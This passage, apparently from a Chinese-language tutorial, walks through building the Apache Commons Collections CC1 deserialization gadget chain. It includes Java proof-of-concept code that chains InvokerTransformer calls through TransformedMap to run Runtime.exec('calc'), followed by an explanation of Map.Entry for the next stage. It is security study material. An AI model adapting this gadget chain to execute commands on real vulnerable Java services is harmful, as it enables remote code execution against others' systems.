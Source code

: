 ![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231117145610.png)

然后利用反射获取checkSetValue方法;

```java
Class<TransformedMap> transformedMapClass = TransformedMap.class;  
Method checkSetValueMethod = transformedMapClass.getDeclaredMethod("checkSetValue", Object.class);   checkSetValueMethod.setAccessible(true);  
checkSetValueMethod.invoke(decorateMap, runtime);  
```

总体如下：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class Test {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec",new Class[] {String.class},new Object[] {"calc"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map decorateMap = TransformedMap.decorate(hashMap, null, transformerChain);
        Class<TransformedMap> transformedMapClass = TransformedMap.class;
        Method checkSetValueMethod = transformedMapClass.getDeclaredMethod("checkSetValue", Object.class);
        checkSetValueMethod.setAccessible(true);
        checkSetValueMethod.invoke(decorateMap,transformerChain);
    }
}
```

这是一个成功的demo，但是却无法再进一步了。我们需要另找其他的方法。

TransformedMap父类AbstractInputCheckedMapDecorator的内部的MapEntry类也调用了checkSetValue

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231117154557.png)

这里的entry是Map.entry。

Map是java中的接口，Map.Entry是Map的一个内部接口。

Map提供了一些常用方法，如`keySet()`、`entrySet()`等方法。

`keySet()`方法返回值是Map中key值的集合；`entrySet()`的返回值也是返回一个Set集合，此集合的类型为Map.Entry

Map.Entry是Map声明的一个内部接口，此接口为泛型，定义为Entry。它表示Map中的一个实体（一个key-value对）。接口中有`getKey`、`getValue`、`setValue`等方法。

